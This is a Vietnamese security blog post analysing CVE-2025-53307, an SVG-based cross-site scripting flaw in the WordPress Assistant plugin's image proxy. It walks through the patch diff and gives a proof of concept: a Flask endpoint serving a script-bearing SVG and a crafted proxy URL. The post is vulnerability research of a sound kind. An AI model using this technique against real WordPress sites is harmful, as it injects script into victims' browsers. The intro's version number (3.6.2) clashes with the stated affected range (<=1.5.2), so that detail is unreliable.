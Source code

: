 ```yaml
---
title: CVE-2025-53307 Analysis & POC
description: Security Vulnerability in WordPress Assistant Plugin.
date: 2025-09-16 22:55:00 +0700
categories: [Vulnerabilities, CVE Analyst]
tags: [analyst, plugin, xss]
---
```


## Introduction
Lỗ hổng xảy ra trên plugin **Assistant** của WordPress trước phiên bản **3.6.2**. Điều này có thể cho phép kẻ tấn công chèn mã độc (ví dụ: script chuyển hướng, quảng cáo, hoặc các payload HTML khác) vào website, và những mã đó sẽ được thực thi khi khách truy cập mở trang.
- **CVE ID**: [CVE-2025-53307](https://www.cve.org/CVERecord?id=CVE-2025-53307)
- **Product**: [WordPress Assistant Plugin](https://wordpress.org/plugins/assistant/)
- **Vulnerability Type**: Cross Site Scripting
- **Affected Versions**: <= 1.5.2 
- **CVSS severity**: Medium (7.1) 
- **Required Privilege**: Unauthenticated

## Requirements
- [**Local WordPress and Debugging**](https://w41bu1.github.io/posts/wordpress-local-and-debugging/)
- **Assistant**:  v1.5.2(vul) và v1.5.3(fix)
- **diff tool**: **meld** hoặc bất cứ tool nào có thể compare để thấy được sự khác biệt giữa 2 version

## Analysis
Ứng dụng hiển thị trực tiếp nội dung hình ảnh do người dùng cung cấp thông qua URL **mà không xác thực và kiểm tra đầy đủ MIME type**. Điều này dẫn đến việc kẻ tấn công có thể cung cấp một tập tin giả dạng hình ảnh và khi được trình duyệt xử lý, nó sẽ thực thi mã độc => gây ra lỗ hổng XSS.

### Patch Diff
Dùng diff tool bất kì để so sánh sự khác biệt giữa bản lỗi và bản vá.

![Patch Diff](assets/img/posts/2025-09-16-CVE-2025-53307/patch_diff.png)

Trong trường hợp này, sự khác biệt giữa 2 phiên bản khá nhiều, để thuận lợi cho việc truy vết, ta có thể xem [change log](https://wordpress.org/plugins/assistant/#developers) để biết bản vá lỗ hổng XSS ở đâu:

```
Changelog
1.5.3 ( 2025-09-08 )

- Changes to support the integration of Assistant in Beaver Builder version 2.10
- Fixed dark mode issues on the Home app and sidebar.
- Security: Fixed a potential XSS vulnerability in the "image proxy"
```

👉 Lỗ hỗng nằm trong file **backend/src/Hooks/ImageProxy.php**, ta quan sát sự khác biệt của 2 phiên bản:

![Patch Diff 1](assets/img/posts/2025-09-16-CVE-2025-53307/patch_diff1.png)

Sự thay đổi xảy ra ở hàm `render_image` với chức năng:
- Nhận tham số url từ query string `($_GET['url'])`.
- Gửi request từ server đến URL đó để tải nội dung.
- Chống **ssrf** bằng `wp_safe_remote_get`.
- Nếu nội dung có header **Content-Type** bắt đầu bằng `image/`, thì:
    - Gửi lại header **Content-Type** đó cho client.
    - In (echo) toàn bộ nội dung file ra cho trình duyệt.
- Trình duyệt hiển thị hình ảnh **không phải trực tiếp từ nguồn gốc mà thông qua server WordPress**.

> SVG cũng có **Content-Type** bắt đầu bằng `image/` và có thể chứa mã JavaScript bên trong => XSS có thể xảy ra.
{: .prompt-tip }

Bản vá đã thêm một lớp kiểm tra **MIME type** thực sự của file để tránh kịch bản XSS bằng SVG hay file giả mạo.

```php
$filesystem = self::filesystem();
$tmpfile    = tempnam( '/tmp', 'assistant' );
$filesystem->put_contents( $tmpfile, $body );
$validimage = wp_get_image_mime( $tmpfile );
$filesystem->delete( $tmpfile );

if ( ! $validimage ) {
    return false;
}
```

[`wp_get_image_mime()`](https://github.com/WordPress/wordpress-develop/blob/6.8.2/src/wp-includes/functions.php#L3330-L3417) sử dụng hàm xử lý ảnh nội bộ (dựa trên dữ liệu binary của file) để xác định MIME thực sự.

Nếu kết quả không phải là ảnh hợp lệ => return **false**.

### How it work?
Trong `__construct` của class `ImageProxy`, phương thức `render_image()` được gọi thông qua callback của action hook `'init'`. Hook `'init'` được thực thi rất sớm trong quá trình load WordPress, sau khi các đối tượng core được khởi tạo nhưng trước khi gửi output ra trình duyệt.

`render_image` chỉ được gọi khi người dùng hiện tại có quyền chỉnh sửa bài viết của người khác và tham số `$_GET['fl_asst_image_proxy']` tồn tại.

👉 Khi truy cập `/wp-admin/?fl_asst_image_proxy=value1&url=http://yoursite/image-path` thì `render_image` sẽ được gọi và trả về nội dung hình ảnh cho trình duyệt hiển thị.

## Exploit
### Detect XSS
Tạo 1 trang [web](https://github.com/w41bu1/w41test) đơn giản trả về nội dung SVG chứa XSS payload 

```py
from flask import Flask, Response

app = Flask(__name__)

@app.route('/')
def home():
    return 'Hello, World!'

@app.route('/svg')
def about():
    svg = """<?xml version="1.0" encoding="UTF-8"?>
    <svg xmlns="http://www.w3.org/2000/svg">
        <script>alert(document.domain)</script>
    </svg>"""
    return Response(svg, mimetype="image/svg+xml")
```
{: file="api/index.py"}

Gửi request chứa **url param** trỏ đến `https://yoursite/svg`

```
http://localhost/wp-admin/?fl_asst_image_proxy=abc&url=https://yoursite/svg
```

👉 Thành công với `Unauthenticated` vì chỉ cần người dùng có quyền, khi truy cập url => XSS xảy ra trên trình duyệt của nạn nhân. Attacker không cần đăng nhập.

![Detect](assets/img/posts/2025-09-16-CVE-2025-53307/detect.png)

## Conclusion
Lỗ hổng **CVE-2025-53307** trong plugin WordPress Assistant (**<= v1.5.2**) cho phép XSS thông qua `render_image()` vì không kiểm tra **MIME type** thực của file. Bản vá **v1.5.3** đã khắc phục bằng cách xác thực nội dung file trước khi trả về trình duyệt.

**Key takeaways**:

- Không tin cậy vào **Content-Type header** từ **HTTP response**.
- Luôn xác thực **MIME type** thực sự của file.

## References

[Cross-site scripting (XSS) cheat sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

[WordPress WordPress Assistant Plugin <= 1.5.2 is vulnerable to Cross Site Scripting (XSS)](https://patchstack.com/database/wordpress/plugin/assistant/vulnerability/wordpress-assistant-plugin-1-5-2-cross-site-scripting-xss-vulnerability)